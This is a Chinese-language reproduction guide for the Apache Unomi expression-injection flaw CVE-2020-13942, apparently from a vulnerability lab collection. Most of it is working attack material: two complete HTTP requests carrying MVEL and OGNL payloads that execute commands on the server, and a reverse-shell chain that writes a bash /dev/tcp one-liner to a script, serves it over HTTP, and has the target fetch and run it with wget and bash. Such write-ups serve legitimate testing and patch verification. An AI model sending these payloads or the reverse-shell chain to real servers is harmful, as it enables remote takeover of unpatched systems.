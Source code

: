 # Apache Unomi 远程表达式代码执行漏洞 CVE-2020-13942

## 漏洞描述

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

参考链接：

- https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
- https://github.com/eugenebmx/CVE-2020-13942

## 环境搭建

Vulhub运行如下命令启动一个Apache Unomi 1.5.1的服务器：

```
docker-compose up -d
```

环境启动后，通过`http://your-ip:8181`或`https://your-ip:9443`即可访问到Unomi的API。

![image-20220302162129426](./images/202203021621659.png)

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以9443为例。

通过MVEL表达式执行任意命令，例如：`touch /tmp/awesome_poc`

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

![image-20220302162332199](./images/202203021623415.png)

通过OGNL表达式执行任意命令：

```
POST /context.json HTTP/1.1
Host: your-ip:9443
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

![image-20220302162509953](./images/202203021625450.png)

进入容器，可见命令已执行成功：

![image-20220302162528752](./images/202203021625913.png)

### 反弹shell

通过OGNL表达式执行任意命令，反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：

![](./images/202203021627471.png)

